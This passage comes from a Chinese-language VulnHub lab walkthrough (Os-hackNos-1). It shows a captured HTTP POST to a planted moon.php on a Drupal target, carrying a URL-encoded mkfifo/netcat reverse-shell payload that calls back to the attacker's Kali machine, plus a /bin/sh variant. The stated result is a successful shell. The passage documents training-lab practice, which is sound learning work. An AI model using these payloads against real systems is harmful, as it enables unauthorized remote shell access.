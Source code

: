 在浏览器中访问http://192.168.5.132/drupal/moon.php



使用burp进行抓包准备反弹shell

```
POST /drupal/moon.php HTTP/1.1

Host: 192.168.5.132

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4482.0 Safari/537.36 Edg/92.0.874.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close

Cookie: has_js=1

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 91



moon=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash++2>%261|nc+192.168.5.129+9000+>/tmp/f
```



注意这里的 192.168.5.129为kali的ip地址

moon博客里写的是/bin/sh -i 但是我在测试时报错了

rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+‐i+2>%261|nc+192.168.0.136+9001+>/tmp/f



我这里改为 /bin/bash

moon=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash++2>%261|nc+192.168.5.129+9000+>/tmp/f





提交之后可以反弹一个shell

![image-20230628232204943](vulnhub靶机 Os-hackNos-1.assets\image-20230628232204943.png)

此时已经反弹成功

然后切换为python3的shell
